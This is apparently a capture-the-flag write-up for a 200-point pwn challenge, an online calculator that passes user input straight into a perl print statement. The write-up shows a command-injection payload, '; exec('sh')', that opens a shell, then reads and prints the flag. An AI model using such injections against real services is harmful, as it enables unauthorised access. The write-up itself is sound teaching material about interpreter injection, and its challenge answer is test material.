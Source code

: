 # Online Calculator

> > Pwn - 200pts
> 
> I have made this super cool online calculator so you don't have to use python or the built-in calculator of your operating system.
> 
> You can find it and test it out at: \<insert\_ip\_here\>:\<insert\_port\_here\>
> 
> PS: it is running over raw TCP, so connect using `nc <ip> <port>`
> 
> File: \<insert\_link\_to\_file\>

## Writeup

After tracing, reversing or otherwise getting some knowledge of what the server does,
we see the input is simply handed over to perl as such: `perl -e 'print <user_input>'`

This means that we can get a reverse shell by executing a new command in perl by terminating the print statement with something like `; exec('sh')`

Yielding the shell command;

```
perl -e 'print ; exec('sh')
```

This will give the user a shell, and the flag can be read:

```
cat flag
UiTHack18{Repeat_after_me:I_will_not_pass_user_input_to_an_interpreter!}
```

Yielding the flag:

```
UiTHack18{Repeat_after_me:I_will_not_pass_user_input_to_an_interpreter!}   
```

